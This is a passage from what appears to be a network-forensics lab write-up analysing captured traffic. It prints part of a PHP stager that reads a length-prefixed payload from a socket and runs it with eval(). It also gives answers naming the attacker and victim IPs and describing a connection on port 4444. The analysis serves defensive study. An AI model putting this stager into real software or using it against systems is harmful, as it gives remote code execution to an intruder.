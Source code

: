     $a   = unpack("Nlen", $len);
    $len = $a['len'];
    $b   = '';
    while (strlen($b) < $len) {
        switch ($s_type) {
            case 'stream':
                $b .= fread($s, $len - strlen($b));
                break;
            case 'socket':
                $b .= socket_read($s, $len - strlen($b));
                break;
        }
    }
    $GLOBALS['msgsock']      = $s;
    $GLOBALS['msgsock_type'] = $s_type;
    eval($b);
    die();
    ```


Identify the attacker (malicious client) and the victim (web server).
  - Attacker: 10.142.0.2, Victim: 	10.142.0.1

(optional) Analyze the contents of the packet containing malicious query. What do you think is the effect of the query on the web server? How does the attacker follow-up on the initial malicious query?
    - Creates a socket connection on ip port 4444 to listen to messages 
  